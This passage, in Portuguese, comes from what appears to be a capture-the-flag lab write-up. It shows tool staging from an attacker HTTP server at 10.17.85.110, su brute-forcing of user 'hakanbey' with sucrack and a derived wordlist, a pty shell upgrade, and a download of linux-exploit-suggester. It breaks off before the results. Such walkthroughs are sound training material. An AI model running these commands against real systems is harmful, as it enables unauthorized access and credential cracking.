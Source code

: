 (se não der certo baixe direto do site: http://archive.ubuntu.com/ubuntu/pool/universe/s/sucrack/sucrack_1.2.3-5_amd64.deb)

```shell
python3 -m http.server 8000
```

na máquina da vítima

```shell
wget http://10.17.85.110:8000/sucrack_1.2.3-5_amd64.deb
```

agora

```shell
dpkg -x sucrack_1.2.3-5_amd64.deb c
```

agora iremos copiar a wordlist para o diretório do **tmp**.

```shell
cp /var/www/html/announcements/wordlist.txt /tmp 
```

pelo padrão de senha que vimos anteriormente: 123adanacrack, temos o padrão 123adana, então iremos add esse padrão na wordlist, para fazer isso:

```shell
sed 's/^/123adana/' wordlist.txt > novawordlist.txt
```

então iremos rodar executável no diretório **sucrack**:

```shell
bash sucrack/usr/bin/sucrack -w 100 -b 500 -u hakanbey novawordlist.txt
```

agora só esperar uns minutos. Com a senha em mãos, iremos primeiro melhorar o shell:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

então será necessário usar o comando:

```shell
su hakanbey
```

Navegando até o diretório do usuário temos o arquivo **user.txt** que é a outra flag. Iremos agora realizar a escalação de privilégio. Usaremos LES: Linux privilege escalation auditing tool (https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh). Então usando o comando **wget** para baixar o arquivo na nossa máquina linux. Ainda com nosso servidor aberto iremos enviar o arquivo para a máquina da vítima.

```shell
wget http://10.17.85.110:8000/linux-exp.sh
```

Encontramos várias vulnerabilidades, conforme é mostrado a seguir:
